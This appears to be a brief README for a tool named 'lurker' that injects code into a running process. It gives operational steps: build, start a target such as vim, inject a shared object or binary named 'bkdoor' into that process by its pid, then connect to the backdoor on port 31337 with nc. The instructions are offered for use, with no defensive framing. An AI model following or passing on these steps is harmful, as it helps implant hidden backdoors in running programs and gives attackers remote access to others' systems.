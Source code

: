 # new_luker
1. Run `make`.

2. start the target process, such as `vim`, by executing: `vim`.

3. In another terminal, execute: ./lurker --s \`pidof vim\` \`pwd\`/bkdoor_so.so OR ./lurker --b \`pidof vim\` bkdoor.o.bin to inject the code into the target process..

4. Finally,  `nc 127.0.0.1 31337`.
